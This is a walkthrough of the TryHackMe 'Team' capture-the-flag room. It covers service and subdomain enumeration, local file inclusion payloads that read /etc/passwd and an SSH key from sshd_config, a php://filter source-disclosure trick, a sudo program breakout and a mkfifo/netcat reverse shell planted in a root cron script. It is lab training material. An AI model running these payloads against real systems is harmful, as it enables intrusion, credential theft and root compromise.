# Team
**Date:** September 28th 2022

**Author:** j.info

**Link:** [**Team**](https://tryhackme.com/room/teamcw) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
```

<br>

### Gobuster Scan

`gobuster dir -u http://team.thm -t 30 -r -x php,txt,html -w dir-med.txt`

```
/robots.txt           (Status: 200) [Size: 5]
/scripts              (Status: 403) [Size: 273]
/assets               (Status: 403) [Size: 273]
/index.html           (Status: 200) [Size: 2966]
/images               (Status: 200) [Size: 755]
```

<br>

## Website Digging

Visiting the main page:



It's a default Apache2 page but they did modify the title asking you to change your hosts file:

```html
<title>Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!</title>
```

After adding that and visiting team.thm you get:



Looking at robots.txt shows us just the name **dale**, so it looks like we have a username.

Directory browsing is enabled on /images but nothing useful there.

I don't see anything else on the webpage so I fuzz for other subdomains using FFuF:

`ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://team.thm -H "Host: FUZZ.team.thm"`

Everything comes back as a false positive and looks like this:

```
ns3                     [Status: 200, Size: 11366, Words: 3512, Lines: 374, Duration: 76ms]
```

So I run FFuF again and use a filter on size to remove any results with a size of 11366:

`ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://team.thm -H "Host: FUZZ.team.thm" -fs 11366`

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://team.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.team.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 11366
________________________________________________

www                     [Status: 200, Size: 2966, Words: 140, Lines: 90, Duration: 77ms]
dev                     [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 82ms]
www.dev                 [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 77ms]
:: Progress: [4989/4989] :: Job [1/1] :: 470 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Alright we have a dev subdomain to check out so let's go look at that after adding it to our hosts file:



And visiting the link:



The page= says to me we may be able to use some LFI here. I try to bring up the /etc/passwd file by going to:

```
view-source:http://dev.team.thm/script.php?page=../../../../../etc/passwd
```

And we get the file contents back (I've removed all but those with shells for easy of reading):

```
root:x:0:0:root:/root:/bin/bash
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
```

I want to take a peak inside the teamshare.php file to see if there's anything useful in it and use a php filter to convert it over to base64 and then decode it:

```
http://dev.team.thm/script.php?page=php://filter/read=convert.base64-encode/resource=teamshare.php
```

Returns the teamshare.php base64 encoded:

```
PGh0bWw+CiA8aGVhZD4KICA8dGl0bGU+VGVhbSBTaGFyZTwvdGl0bGU+CiA8L2hlYWQ+CiA8Ym9keT4KICA8P3BocCBlY2hvICJQbGFjZSBob2xkZXIgZm9yIGZ1dHVyZSB0ZWFtIHNoYXJlIiA/PgogPC9ib2R5Pgo8L2h0bWw+Cg==
```

And decoding it:

`echo "PGh0bWw+CiA8aGVhZD4KICA8dGl0bGU+VGVhbSBTaGFyZTwvdGl0bGU+CiA8L2hlYWQ+CiA8Ym9keT4KICA8P3BocCBlY2hvICJQbGFjZSBob2xkZXIgZm9yIGZ1dHVyZSB0ZWFtIHNoYXJlIiA/PgogPC9ib2R5Pgo8L2h0bWw+Cg==" | base64 -d`

```
<html>
 <head>
  <title>Team Share</title>
 </head>
 <body>
  <?php echo "Place holder for future team share" ?>
 </body>
</html>
```

No luck, this just matches what shows up in view source.

I try the same thing with the script.php in the url:

`echo "Cjw/cGhwICAgCiRmaWxlID0gJF9HRVRbJ3BhZ2UnXTsKICAgaWYoaXNzZXQoJGZpbGUpKQogICB7CiAgICAgICBpbmNsdWRlKCIkZmlsZSIpOwogICB9CiAgIGVsc2UKICAgewogICAgICAgaW5jbHVkZSgidGVhbXNoYXJlLnBocCIpOwogICB9Cj8+Cg==" | base64 -d`

```php
<?php   
$file = $_GET['page'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("teamshare.php");
   }
?>
```

So that's why the LFI works, it doesn't validate input at all.

I check to see if I can pull any id_rsa files by going to:

```
view-source:http://dev.team.thm/script.php?page=../../../../../home/dale/.ssh/id_rsa
```

But don't have any luck. No id_rsa files for any of the users with shells.

I am able to pull the user.txt flag from the /home/dale directory though:

```
view-source:http://dev.team.thm/script.php?page=../../../../home/dale/user.txt
```

user.txt flag:

```
THM{<REDACTED>}
```

I'm also unable to pull anything that requires root privileges like /etc/shadow.

Time to use the seclists LFI list to see if we can pull anything useful from the system using Burp. I capture our LFI request and send it over to intruder. Then adjust the payload position to only include what comes after ../../../../





Then on the payload tab we can add the seclists LFI file. These are located here:

`ls -al /usr/share/wordlists/seclists/Fuzzing/LFI`

```
total 844
drwxr-xr-x 2 root root   4096 Aug  6 10:57 .
drwxr-xr-x 9 root root  12288 Aug  6 10:57 ..
-rw-r--r-- 1 root root 254354 Aug  2 05:51 LFI-etc-files-of-all-linux-packages.txt
-rw-r--r-- 1 root root  22812 Aug  2 05:51 LFI-gracefulsecurity-linux.txt
-rw-r--r-- 1 root root   3094 Aug  2 05:51 LFI-gracefulsecurity-windows.txt
-rw-r--r-- 1 root root  32185 Aug  2 05:51 LFI-Jhaddix.txt
-rw-r--r-- 1 root root 501947 Aug  2 05:51 LFI-LFISuite-pathtotest-huge.txt
-rw-r--r-- 1 root root  22215 Aug  2 05:51 LFI-LFISuite-pathtotest.txt
```

I'm not sure what the LFISuite files are, and the windows one is out of the question, so I go with the smallest of the remaining files for speed purposes and use LFI-gracefulsecurity-linux.txt:



And then start the attack which starts requesting each of the files from the payload.

One thing I notice right away is that empty files come back with a length of 167:



So, we can let it run for awhile and then sort by length to put the bigger sizes at the top, and then take a quick look at each of those files to see if there is anything useful.

It starts going painfully slow around the 100 requests mark since we're using the Burp community version so I pause it and sort, and look through the results.



Looking through them we get lucky with the 3rd file in the list: /etc/ssh/sshd_config. Selecting that file and choosing the response tab we see at the bottom a private SSH key for the dale user:



I save the private key to my system and with that we should hopefully be able to connect over as dale.

Note: there is a comment symbol in front of all SSH key lines that needs to be removed. This can easily be done by saving the SSH key with # included into a text file and then running:

`sed 's/#//' YOUR_FILENAME > NEW_FILENAME`

Then when you SSH over just make sure to use the NEW_FILENAME as your key.

<br>

## System Access

I SSH over as dale:

`ssh -i id_rsa dale@$ip`

```
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ whoami
dale
dale@TEAM:~$ hostname
TEAM
```

<br>

## System Enumeration

I see the sudo successful file in dales home directory:

```
-rw-r--r-- 1 dale dale    0 Jan 15  2021 .sudo_as_admin_successful
```

And check to see if we can do anything with `sudo -l`

```
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

So we can run the admin_checks program as gyles. I run it to see what happens:

`sudo -u gyles /home/gyles/admin_checks`

```
Reading stats.
Reading stats..
Enter name of person backing up the data: test
Enter 'date' to timestamp the file: 1/1/1111
The Date is Stats have been backed up
```

It says something has been backed up so I look in the /var/backups directory to see if anything was backed up there and don't see anything. There is a www directory though, and searching through that I ended up at: /var/backups/www/team.thm/scripts which has the following files in it:

```
-rw-r--r-- 1 root root  466 Sep 29 03:21 script.old
-rw-r--r-- 1 root root  597 Sep 29 03:21 script.txt
```

In the scripts.old file we get some FTP credentials that allow us to login as ftpuser. And an interesting note is if we had used gobuster to look at http://team.thm/scripts/ earlier we likely would have found the script.txt file, and it would have led us to the script.old file based on the comment at the bottom, and we would have gotten credentials by downloading that file. I navigate there with my web browser to test and sure enough it let's us download it:



I login as ftpuser via FTP just to see what I can find and it just takes us to /home/ftpuser. In that is a folder called workshare, and in there is a file called New_site.txt which contains:

```
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

And that explains why Dale has a copy of his private id_rsa key in the /etc/ssh/sshd_conf file that we found. We did things a little backwards but that's alright.

Back from the rabbit hole I look again at the admin_checks program and find that it backs it's file up to the /var/stats directory.

I run it again:

```
Reading stats.
Reading stats..
Enter name of person backing up the data: test
Enter 'date' to timestamp the file: now
The Date is Stats have been backed up
```

And in the .bak file:

```
Website_views=1337
Unique_views=436
Disc_members=16
Events_won=1


anon
anon
anon
anon
anon
anon
anon
anon
anon
test
test
```

We can see that the test user I gave it got added but even though it asked for a date that wasn't put in there anywhere, and the filename itself has the correct date in it.

I want to test what happens if I enter /bin/bash in each of the inputs and find that if you enter it in the date prompt it breaks out and you're now on the system as gyles:

```
Reading stats.
Reading stats..
Enter name of person backing up the data: asdf
Enter 'date' to timestamp the file: /bin/bash
The Date is whoami
gyles
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

I fix the shell so it's a bit easier to use.

I check `sudo -l` but it requires a password.

I look around the system more and end up in the /opt/admin_stuff directory. Inside is a file called script.sh which contains:

```
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```

I look at gyles crontabs and don't see anything. None there for dale either so I'm assuming that root is running the crontab every minute. Looking at those 2 files:

```
gyles@TEAM:/opt/admin_stuff$ ls -al /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
gyles@TEAM:/opt/admin_stuff$ ls -al /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17  2021 /usr/local/sbin/dev_backup.sh
```

We have write permissions to main_backup.sh! Let's see what's in there.

```
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

<br>

## Root

I edit the file and comment out the copy command, and add a netcat mkfifo reverse shell command to connect back to my home system:

```
#!/bin/bash
# cp -r /var/www/team.thm/* /var/backups/www/team.thm/
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.127.197 4444 >/tmp/f
```

I set up a listener on my system and wait:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.209.155] 51936
bash: cannot set terminal process group (5068): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~#
```

And we're root! Looking at the root.txt flag:

`wc -c /root/root.txt`

```
18 /root/root.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Fuzzing subdomains with **FFuF**
- Noticing a ?page= in the dev site URL and abusing **LFI** to view files on the system through it
- Using a **php filter** to view encode .php files on the system into base64 and then decoding the base64 so we can view the contents
- Using **Burp intruder** to fuzz common LFI target files and finding a private SSH key in one of them
- Laterally moving to another user by breaking out of a program I had permission to run as that user via sudo
- Finding a bash script that root runs via crontab which calls other scripts, and we have write permissions to one of those other scripts allowing us edit it and reverse shell back to us as root

<br>

Many thanks to:
- [**dalemazza**](https://tryhackme.com/p/dalemazza) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)